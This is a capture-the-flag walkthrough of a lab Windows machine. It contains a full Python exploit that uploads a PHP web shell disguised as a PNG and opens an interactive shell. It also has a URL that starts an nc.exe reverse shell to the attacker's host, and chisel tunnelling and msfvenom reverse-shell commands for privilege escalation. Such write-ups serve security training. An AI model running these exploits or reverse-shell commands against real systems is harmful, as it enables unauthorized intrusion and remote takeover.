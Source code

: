 ![image](https://user-images.githubusercontent.com/68326057/117569071-67c49a00-b0e1-11eb-802a-3784aab7f275.png)

# NMAP

```bash
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

```


# WEB


--> upload.php
![image](https://user-images.githubusercontent.com/68326057/117569130-bffb9c00-b0e1-11eb-9b76-cd8db979fef4.png)


![image](https://user-images.githubusercontent.com/68326057/117569141-d99ce380-b0e1-11eb-9226-5bb2e720a3ef.png)




![image](https://user-images.githubusercontent.com/68326057/117569070-6004f580-b0e1-11eb-94da-75c492e4595d.png)

![image](https://user-images.githubusercontent.com/68326057/117569243-5c25a300-b0e2-11eb-93c4-274cb0e14963.png)

![image](https://user-images.githubusercontent.com/68326057/117569256-71023680-b0e2-11eb-8df1-dfa22c531f21.png)


```python
# IT IS PYTHON3 CODE

import requests, sys, urllib, re
from colorama import Fore, Back, Style
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

def webshell(SERVER_URL, session):
    try:
        WEB_SHELL = SERVER_URL+'upload/kamehameha.php'
        getdir  = {'telepathy': 'echo %CD%'}
        r2 = session.get(WEB_SHELL, params=getdir, verify=False)
        status = r2.status_code
        if status != 200:
            print("[!] Could not connect to the webshell.")
            r2.raise_for_status()
        print('[+] Successfully connected to webshell.')
        cwd = re.findall('[CDEF].*', r2.text)
        cwd = cwd[0]+"> "
        term = Style.BRIGHT+Fore.GREEN+cwd+Fore.RESET
        while True:
            thought = raw_input(term)
            command = {'telepathy': thought}
            r2 = requests.get(WEB_SHELL, params=command, verify=False)
            status = r2.status_code
            if status != 200:
                r2.raise_for_status()
            response2 = r2.text
            print(response2)
    except:
        print("\r\nExiting.")
        sys.exit(-1)


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("(+) Usage:\t python %s <WEBAPP_URL>" % sys.argv[0])
        print("(+) Example:\t python %s 'https://10.0.0.3:443/gym/'" % sys.argv[0])
        sys.exit(-1)
    SERVER_URL = sys.argv[1]
    UPLOAD_DIR = 'upload.php?id=kamehameha'
    UPLOAD_URL = SERVER_URL + UPLOAD_DIR
    s = requests.Session()
    s.get(SERVER_URL, verify=False)
    PNG_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
    png     = {
                'file': 
                  (
                    'kaio-ken.php.png', 
                    PNG_magicBytes+'\n'+'<?php echo shell_exec($_GET["telepathy"]); ?>', 
                    'image/png', 
                    {'Content-Disposition': 'form-data'}
                  ) 
              }
    fdata   = {'pupload': 'upload'}
    r1 = s.post(url=UPLOAD_URL, files=png, data=fdata, verify=False)
    webshell(SERVER_URL, s)
  ```
  # RCE
  
  --> http://10.10.10.198:8080/upload/kamehameha.php?telepathy=whoami
  
  ![image](https://user-images.githubusercontent.com/68326057/117569888-61382180-b0e5-11eb-864d-79655bbf9e04.png)

--> view-source:http://10.10.10.198:8080/upload/kamehameha.php?telepathy=nc.exe%2010.10.14.21%209001%20-e%20cmd.exe

![image](https://user-images.githubusercontent.com/68326057/117574054-e6790180-b0f8-11eb-865c-145a39cd9964.png)


# USER shaun

![image](https://user-images.githubusercontent.com/68326057/117574066-fbee2b80-b0f8-11eb-8e8a-e2f0107d1a8b.png)

![image](https://user-images.githubusercontent.com/68326057/117574585-791aa000-b0fb-11eb-8eda-ea7c5145727a.png)

![image](https://user-images.githubusercontent.com/68326057/117574933-3eb20280-b0fd-11eb-841d-a491704ac46e.png)

![image](https://user-images.githubusercontent.com/68326057/117574962-5ee1c180-b0fd-11eb-907f-fd9ce6fc2954.png)

```bash
type --> tasklist
```

![image](https://user-images.githubusercontent.com/68326057/117574994-82a50780-b0fd-11eb-9f4c-33c07e6c095b.png)

![image](https://user-images.githubusercontent.com/68326057/117575105-08c14e00-b0fe-11eb-8266-3fa3675c64c3.png)



AND NOW THE MAIN PART

ON attacker machine

```bash
./chisel  server --reverse --port 9999
````

on Victim machien

```bash
chisel.exe client 10.10.14.21:9999 R:8888:127.0.0.1:8888
```

This will generate a tunnel

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.21 LPORT=9002  -b "\x00\x0d\x0a" -f python
```

Put it in the code u found
and add this at the end:-

```bash
payload=buf
```
Because OUR payload is buf

Start listener

```bash
nc -lnvp 9002
```
on other terminal type python 48389.py

AND !!!!BOOMM!!!

![image](https://user-images.githubusercontent.com/68326057/117577596-1085f000-b108-11eb-9560-a349b9f67c5e.png)

